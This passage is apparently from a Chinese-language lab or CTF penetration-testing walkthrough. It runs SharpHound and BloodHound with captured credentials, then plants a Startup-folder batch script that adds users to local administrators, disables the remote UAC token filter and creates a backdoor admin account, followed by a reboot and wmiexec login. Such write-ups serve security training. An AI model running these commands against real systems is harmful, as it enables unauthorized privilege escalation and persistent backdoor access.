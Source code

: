 ```bash
/SharpHound.exe --ldapusername yangdming --ldappassword kier@n10 -c all
```

```bash
download 20240215012904_BloodHound.zip
```

扔到 bloodhound 发下 yangdming 在 SHUWDOWN\_GROUP 并且允许计算机重启，利用重启运行启动项后门获取 system 权限写一个 add.bat

```bash
@echo off
net localgroup administrators yangdming /add
reg ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
net user benbi pass@123 /add
net localgroup administrators benbi /add
```

LocalAccountTokenFilterPolicy 设为 1，添加 benbi，同时吧 yangdming 添加到管理员组内

```bash
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
upload add.bat
```

然后重启

```bash
shutdown -r -t 0
```

我们再次连接的时候发现多了一个 benbi 的用户

[![](assets/1708919820-667168e55b82465613415ff0d2a30cfc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024936-cca32bb2-cb69-1.png)

```bash
proxychains python3 wmiexec.py benbi:pass@123@172.22.61.34
```

[![](assets/1708919820-0cc391d2e2d94e203d817586f6386cda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024943-d0ce0ab8-cb69-1.png)
